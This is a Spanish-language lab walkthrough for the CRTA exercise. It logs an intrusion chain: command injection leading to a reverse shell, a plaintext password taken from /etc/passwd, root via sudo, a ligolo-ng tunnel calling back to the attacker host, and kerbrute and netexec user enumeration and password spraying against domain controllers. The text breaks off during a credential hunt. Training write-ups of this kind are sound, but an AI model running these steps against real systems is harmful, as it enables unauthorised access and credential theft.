






Este es mi guía para realizar el laboratorio de CRTA, gran parte fue enumeración mía, pero en ciertos casos si recurrí a el writeup de la propia empresa.

**Autor:** PepeMaquina
**Fecha:** 05 de diciembre de 2025  
**Dificultad:** Medio (Mi opinion)
**Sistema Operativo:** Linux  
**Tags:** Web, Navegador, Pivoting, Kerberos, DCsync.

---
### Scope of engagement
Dentro de los objetivos se tiene:

| FIeld             | Value           |
| ----------------- | --------------- |
| VPN IP Range      | 10.10.200.0/24  |
| External IP Range | 192.168.80.0/24 |
| Internal IP Range | 192.168.98.0/24 |
## Reconocimiento Inicial
Primeramente debo reconocer que ips estan disponibles en la red, que serian las ips de los servidores que corren, esto se puede hacer simplemente con un barrido de ping pero puede que tenga un firewall protegido para ICMP, asi que es preferible usar nmap.
~~~bash
sudo nmap -sn 192.168.80.0/24 -oN direcciones_192.168.80.0.txt 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-03 20:55 EST
Nmap scan report for 192.168.80.10 (192.168.80.10)
Host is up (0.34s latency).
~~~
Descubriendo asi que solamente existe una ip en la red externa, esta es "192.168.80.10"
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 2000 -n -Pn 192.168.80.10 -oG networked
~~~
Se intento realizar con un minrate de 5000 como nomalmente se hacia, pero salen errores de tiempo de respuesta, asi que bajando la cifra siempre funciona.
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 192.168.80.10 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 8d:c3:a7:a5:bf:16:51:f2:03:85:a7:37:ee:ae:8d:81 (RSA)
|   256 9a:b2:73:5a:e5:36:b4:91:d8:8c:f7:4a:d0:15:65:28 (ECDSA)
|_  256 3c:16:a7:6a:b6:33:c5:83:ab:7f:99:60:6a:4c:09:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Cyber WareFare Labs
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Si bien se puede ver, solo presenta dos puertos, el 22 y el 80, de los cuales tampoco existe una redirección ni nada, asi que simplemente se inspeccionará todo sobre la página web.
### Enumeración de la página web
Antes de realizar la enumeración de subdiretorios, primero realizo la enumeración de la página simple como se encuentra.
Lo primero que se ve es un simple inicio de sesion, tras intentar realizar un sqli, esto no es posible, asi que procede a registrarse como un usuario nuevo.

Esto no parece hacer muchas cosas, salvo una pagina interesante que encontre.

Esta página permite subir un pdf y editar algo parecido al nombre, asi que intento interceptar esto con burpsuite para ver que hace por detras.
Pero lo malo es que parece que esa pestaña no funciona bien, por lo que no puedo interceptar nada, puede que sea cosa de la pagina asi que si no se encuentra nada mas, posiblemente llame a soporte.

Vi posibles inyecciones sql, pero al probarlo no funcionaba en nada asi que interactuando mas encontre un input donde se puede agregar un correo electronico y al parecer se puede suscribir a la pagina.

Al interceptar ello.

Tal parece que realiza alguna accion que no tengo muy claro, como es la unica solicitud que hace un post y no veo mas cosa que hacer, se me ocurre hacer de todo, entre ellos probe un command injection y al parecer si surgio efecto.

Como se pude ejecutar comandos, lo mas practico seria relaizar una reverse shell para ver que se puede conseguir dentro de la maquina.

Y coloque un escucha con la herramienta "Penelope" para automatizar en tratamiento de la tty.
~~~bash
penelope -p 443
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [3], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/ubuntu-virtual-machine~192.168.80.10-Linux-x86_64/2025_12_06-20_29_19-840.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@ubuntu-virtual-machine:/var/www/html$
~~~

### Escalada al usuario privilege
Al realizar enumeración manual para encontrar credenciales validas, revise el archivo "etc/passwd" para ver que usuarios se encuentran disponibles, pero al revisar ello se pudo apreciar que un usuario tiene su contraseña en texto plano.
~~~bash
www-data@ubuntu-virtual-machine:/var/www/html$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:ubuntu,,,:/home/ubuntu:/bin/bash
privilege:x:1001:1001:Admin@962:/home/privilege:/bin/bash
~~~
Asi que intentare conectarme con ese usuario.
~~~bash
ww-data@ubuntu-virtual-machine:/var/www/html$ su privilege
Password: 
privilege@ubuntu-virtual-machine:/var/www/html$
~~~

### Escalada de privilegios a root
Al revisar los permisos que tiene dicho usuario se puede ver que puede ejecutar todo como root., asi que es mas facil establecerce como root.
~~~bash
privilege@ubuntu-virtual-machine:/var/www/html$ sudo -l
[sudo] password for privilege: 
Matching Defaults entries for privilege on ubuntu-virtual-machine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User privilege may run the following commands on ubuntu-virtual-machine:
    (ALL : ALL) ALL
privilege@ubuntu-virtual-machine:/var/www/html$ sudo su
root@ubuntu-virtual-machine:/var/www/html#
~~~

### Pivoting a entorno AD
Como se pudo ver en el objetivo principal, dentro de este servidor se deberia tener conexion a la subred "192.168.98.0/24" que vendria a ser la red interna, asi que viendo esto.
~~~bash
root@ubuntu-virtual-machine:/var/www/html# ifconfig
ens32: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.80.10  netmask 255.255.255.0  broadcast 192.168.80.255
        ether 00:50:56:96:62:dd  txqueuelen 1000  (Ethernet)
        RX packets 321  bytes 26698 (26.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2381  bytes 190970 (190.9 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens34: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.98.15  netmask 255.255.255.0  broadcast 192.168.98.255
        ether 00:50:56:96:e4:32  txqueuelen 1000  (Ethernet)
        RX packets 33  bytes 6006 (6.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 40  bytes 3467 (3.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  base 0x1000  

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 6125  bytes 487301 (487.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 6125  bytes 487301 (487.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@ubuntu-virtual-machine:/var/www/html#
~~~
Efectivamente tenemos una interfaz de red con acceso a la red interna, asi que realizo un pivoting para pasarme toda la red a mi maquina principal, esto se puede hacer con chisel o cualquier otra, pero yo prefiero hacerla con "ligolo" porque es mas facil.
Primero configuro la interfaz en mi maquina.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ip tuntap add user kali mode tun ligolo
                                                                            
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ip link set ligolo up 
                                                                            
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ip route add 192.168.98.0/24 dev ligolo
RTNETLINK answers: File exists
~~~
Al configurar existe un pequeño error porque dice que la ip ya esta asignada a una interfaz, asi que revisando las trazas ip.
~~~bash
┌──(kali㉿kali)-[~]
└─$ ip route                               
default via 192.168.5.2 dev eth0 proto dhcp src 192.168.5.128 metric 100 
10.10.200.0/24 dev tun0 proto kernel scope link src 10.10.200.143 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
192.168.5.0/24 dev eth0 proto kernel scope link src 192.168.5.128 metric 100 
192.168.80.0/24 via 10.10.200.1 dev tun0 
192.168.98.0/24 via 10.10.200.1 dev tun0
~~~
Efectivamente la subred "192.168.98.0/24" ya esta ocupada en la interfaz "tun0", pero no tiene mucho sentido ya que esa nos conecta a la red "10.10.200.1" que es la del VPN y a su vez con la red externa "192.168.80.0/24", asi que simplemente se debe de reemplazar la interfaz redigiendo a ligolo.
~~~bash
┌──(kali㉿kali)-[~]
└─$ sudo ip route replace 192.168.98.0/24 dev ligolo
~~~
De esa forma ya estaria configurado la interfaz.
~~~bash
┌──(kali㉿kali)-[~]
└─$ ip route
default via 192.168.5.2 dev eth0 proto dhcp src 192.168.5.128 metric 100 
10.10.200.0/24 dev tun0 proto kernel scope link src 10.10.200.143 
172.17.0.0/16 dev docker0 proto kernel scope link src 172.17.0.1 linkdown 
192.168.5.0/24 dev eth0 proto kernel scope link src 192.168.5.128 metric 100 
192.168.80.0/24 via 10.10.200.1 dev tun0 
192.168.98.0/24 dev ligolo scope link linkdown
~~~
Ahora se debe de levantar el proxy en mi maquina atacante.
~~~bash
                                                                                                                                                            
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ sudo ./proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _                                                                                                           
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/                                                                                                           
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /                                                                                                            
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /                                                                                                             
        /____/                          /____/                                                                                                              
                                                                                                                                                            
  Made in France ♥            by @Nicocha30!                                                                                                                
  Version: 0.8.2                                                                                                                                            
                                                                                                                                                            
ligolo-ng »
~~~

Ahora en el servidor al que tengo acceso me paso el "ligolo-agent" para asi conectarme al proxy que corre desde mi servidor y pase la subred que necesitamos.
~~~bash
root@ubuntu-virtual-machine:/tmp# ./agent-qMygOnqs -connect 10.10.200.143:11601 -ignore-cert -retry
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.200.143:11601"
~~~
De esa forma, en mi ligolo-proxy debo de iniciar la sesion que se creo.
~~~bash
ligolo-ng » session
? Specify a session : 1 - root@ubuntu-virtual-machine - 192.168.80.10:49802 - 00505696e432
[Agent : root@ubuntu-virtual-machine] » start
INFO[0068] Starting tunnel to root@ubuntu-virtual-machine (00505696e432) 
[Agent : root@ubuntu-virtual-machine] »
~~~
Con todo eso ya configurado, desde mi maquina atacante (kali) podria hacer ping a cualquier maquina dentro de la nueva red y deberia de funcionar.
Probare esto realizando un ping a la ip de la segunda interfaz del servidor.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ ping 192.168.98.15
PING 192.168.98.15 (192.168.98.15) 56(84) bytes of data.
64 bytes from 192.168.98.15: icmp_seq=1 ttl=64 time=417 ms
64 bytes from 192.168.98.15: icmp_seq=2 ttl=64 time=491 ms
~~~

### Reconocimiento y enumeración entorno AD
Como lo mencione al principio, nose que ips estan disponibles en esta nueva red, pero como estoy haciendo un pivoting, al intentar ver las ips por nmap a mi no me funciona bien.
Asi que simplemente realizare un barrido de ips viendo cuales estan abiertas.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ for i in {1..254} ;do (ping -c 1 192.168.98.$i | grep "bytes from" &) ;done
64 bytes from 192.168.98.2: icmp_seq=1 ttl=64 time=415 ms
64 bytes from 192.168.98.15: icmp_seq=1 ttl=64 time=582 ms
64 bytes from 192.168.98.30: icmp_seq=1 ttl=64 time=555 ms
64 bytes from 192.168.98.120: icmp_seq=1 ttl=64 time=462 ms
~~~
Se puede ver que existen 4 ips que existe, pero entre ellas descarto la "192.168.98.15" porque es la del servidor linux externa.

Ahora realizando una enumeración de los puertos que tiene cada una.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo nmap -p- --open -sS -vvv --min-rate 1000 -n -Pn -iL ips_internas_ping.txt -oG networked_interna

Host is up, received user-set (0.32s latency).
Scanned at 2025-12-05 22:25:23 EST for 221s
Not shown: 65507 closed tcp ports (reset), 1 filtered tcp port (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 64
88/tcp    open  kerberos-sec     syn-ack ttl 64
135/tcp   open  msrpc            syn-ack ttl 64
139/tcp   open  netbios-ssn      syn-ack ttl 64
389/tcp   open  ldap             syn-ack ttl 64
445/tcp   open  microsoft-ds     syn-ack ttl 64
464/tcp   open  kpasswd5         syn-ack ttl 64
593/tcp   open  http-rpc-epmap   syn-ack ttl 64
636/tcp   open  ldapssl          syn-ack ttl 64
3268/tcp  open  globalcatLDAP    syn-ack ttl 64
3269/tcp  open  globalcatLDAPssl syn-ack ttl 64
5357/tcp  open  wsdapi           syn-ack ttl 64
5985/tcp  open  wsman            syn-ack ttl 64
9389/tcp  open  adws             syn-ack ttl 64
47001/tcp open  winrm            syn-ack ttl 64
49664/tcp open  unknown          syn-ack ttl 64
49665/tcp open  unknown          syn-ack ttl 64
49666/tcp open  unknown          syn-ack ttl 64
49667/tcp open  unknown          syn-ack ttl 64
49669/tcp open  unknown          syn-ack ttl 64
49670/tcp open  unknown          syn-ack ttl 64
49671/tcp open  unknown          syn-ack ttl 64
49674/tcp open  unknown          syn-ack ttl 64
49675/tcp open  unknown          syn-ack ttl 64
49680/tcp open  unknown          syn-ack ttl 64
49702/tcp open  unknown          syn-ack ttl 64
49745/tcp open  unknown          syn-ack ttl 64

Nmap scan report for 192.168.98.30
Host is up, received user-set (0.97s latency).
Scanned at 2025-12-05 22:25:23 EST for 221s
Not shown: 64036 closed tcp ports (reset), 1485 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 64
139/tcp   open  netbios-ssn  syn-ack ttl 64
445/tcp   open  microsoft-ds syn-ack ttl 64
5357/tcp  open  wsdapi       syn-ack ttl 64
5985/tcp  open  wsman        syn-ack ttl 64
47001/tcp open  winrm        syn-ack ttl 64
49664/tcp open  unknown      syn-ack ttl 64
49665/tcp open  unknown      syn-ack ttl 64
49666/tcp open  unknown      syn-ack ttl 64
49667/tcp open  unknown      syn-ack ttl 64
49668/tcp open  unknown      syn-ack ttl 64
49669/tcp open  unknown      syn-ack ttl 64
49670/tcp open  unknown      syn-ack ttl 64
49671/tcp open  unknown      syn-ack ttl 64

Nmap scan report for 192.168.98.120
Host is up, received user-set (0.74s latency).
Scanned at 2025-12-05 22:25:23 EST for 221s
Not shown: 64092 closed tcp ports (reset), 1417 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE          REASON
53/tcp    open  domain           syn-ack ttl 64
88/tcp    open  kerberos-sec     syn-ack ttl 64
135/tcp   open  msrpc            syn-ack ttl 64
139/tcp   open  netbios-ssn      syn-ack ttl 64
389/tcp   open  ldap             syn-ack ttl 64
445/tcp   open  microsoft-ds     syn-ack ttl 64
464/tcp   open  kpasswd5         syn-ack ttl 64
593/tcp   open  http-rpc-epmap   syn-ack ttl 64
636/tcp   open  ldapssl          syn-ack ttl 64
3268/tcp  open  globalcatLDAP    syn-ack ttl 64
3269/tcp  open  globalcatLDAPssl syn-ack ttl 64
5357/tcp  open  wsdapi           syn-ack ttl 64
5985/tcp  open  wsman            syn-ack ttl 64
9389/tcp  open  adws             syn-ack ttl 64
47001/tcp open  winrm            syn-ack ttl 64
49664/tcp open  unknown          syn-ack ttl 64
49665/tcp open  unknown          syn-ack ttl 64
49666/tcp open  unknown          syn-ack ttl 64
49667/tcp open  unknown          syn-ack ttl 64
49669/tcp open  unknown          syn-ack ttl 64
49670/tcp open  unknown          syn-ack ttl 64
49671/tcp open  unknown          syn-ack ttl 64
49674/tcp open  unknown          syn-ack ttl 64
49680/tcp open  unknown          syn-ack ttl 64
49706/tcp open  unknown          syn-ack ttl 64
62811/tcp open  unknown          syn-ack ttl 64
~~~
Con esto se puede deducir un par de cosas.
- Parece que todas son windows.
- Es un AD porque tanto la "192.168.98.2" como la "192.168.98.120" presentan Kerberos (puerto 88)
Asi que como primer paso, procedo a enumerar cada servicio con las credenciales que tenemos hasta ahora.
~~~bash
┌──(kali㉿kali)-[~/crta/labs/nmap/interna]
└─$ sudo netexec smb ips_internas_ping.txt -u ../../users -p ../../pass --continue-on-success
SMB         192.168.98.30   445    MGMT             [*] Windows 10 / Server 2019 Build 17763 x64 (name:MGMT) (domain:child.warfare.corp) (signing:False) (SMBv1:False)                                                                                                                                                  
SMB         192.168.98.120  445    CDC              [*] Windows 10 / Server 2019 Build 17763 x64 (name:CDC) (domain:child.warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                    
SMB         192.168.98.2    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:warfare.corp) (signing:True) (SMBv1:False)                                                                                                                                                         
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\privilege:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\ubuntu:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\administrator:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\root:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\privilege:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\ubuntu:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\administrator:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-] child.warfare.corp\root:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.30   445    MGMT             [-]  child.warfare.corp\privilege:Web!@#$% STATUS_LOGON_FAILURE 

SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\ubuntu:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\administrator:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\root:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\privilege:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\ubuntu:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\administrator:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] child.warfare.corp\root:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.120  445    CDC              [-] 

warfare.corp\privilege:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\ubuntu:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\administrator:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\root:Web!@#$% STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\privilege:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\ubuntu:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\administrator:Admin@962 STATUS_LOGON_FAILURE 
SMB         192.168.98.2    445    DC01             [-] warfare.corp\root:Admin@962 STATUS_LOGON_FAILURE 
~~~
Como se puede ver, no se tiene ningun usuario valido, asi que no se puede hacer mucho.
Primero guardare todas las ips junto a sus dominios a su respectivo "etc/hosts" para tenerlo mas organizado.
~~~bash
┌──(kali㉿kali)-[/opt/pivote/ligolo/linux]
└─$ cat /etc/hosts                                                                
127.0.0.1       localhost
.....................
<SNIP>
.....................
192.168.98.30 MGMT.child.warfare.corp MGMT
192.168.98.120 CDC.child.warfare.corp CDC child.warfare.corp
192.168.98.2 DC01.warfare.corp warfare.corp DC01
~~~
Para mi comodidad realizare una enumeracion por fuerza bruta de usuarios para ver si encuentro algo.
~~~bash
┌──(kali㉿kali)-[/opt/windows/fuerzabruta]
└─$ ./kerbrute_linux_amd64 userenum -d warfare.corp --dc 192.168.98.2 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/05/25 - Ronnie Flathers @ropnop

2025/12/05 22:41:55 >  Using KDC(s):
2025/12/05 22:41:55 >   192.168.98.2:88

2025/12/05 22:43:32 >  [+] VALID USERNAME:       administrator@warfare.corp
2025/12/05 22:49:38 >  [+] VALID USERNAME:       child@warfare.corp
2025/12/05 22:52:09 >  [+] VALID USERNAME:       Administrator@warfare.corp

┌──(kali㉿kali)-[/opt/windows/fuerzabruta]
└─$ ./kerbrute_linux_amd64 userenum -d child.warfare.corp --dc 192.168.98.120 /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 12/05/25 - Ronnie Flathers @ropnop

2025/12/05 22:42:29 >  Using KDC(s):
2025/12/05 22:42:29 >   192.168.98.120:88

2025/12/05 22:42:29 >  [+] VALID USERNAME:       john@child.warfare.corp
2025/12/05 22:43:01 >  [+] VALID USERNAME:       John@child.warfare.corp
2025/12/05 22:43:58 >  [+] VALID USERNAME:       administrator@child.warfare.corp
2025/12/05 22:45:39 >  [+] VALID USERNAME:       JOHN@child.warfare.corp
2025/12/05 22:52:33 >  [+] VALID USERNAME:       Administrator@child.warfare.corp
~~~
Se puede encontrar un par de usuarios validos, pero fuera de ello nada mas.

### Busqueda de credenciales en el servidor linux.
Como no se tiene alguna credencial valida para poder enumerar recursos del entorno AD, probablemente dejamos de lado alguna credencial dentro del servidor Linux, asi que lanzamos el famoso "linpeas" para ver si se encuentra algo.

El resultado es bastante largo, pero algo que llamo mi atencion fue que existe un archivo ".mozilla" dentro de las carpetas de los usuarios.
~~~bash
root@ubuntu-virtual-machine:/home/privilege# ls -la
total 84
drwxr-xr-x 16 privilege privilege 4096 Jan 19  2025 .
drwxr-xr-x  4 root      root      4096 Jan 16  2025 ..
-rw-------  1 privilege privilege  213 Dec  7 07:24 .bash_history
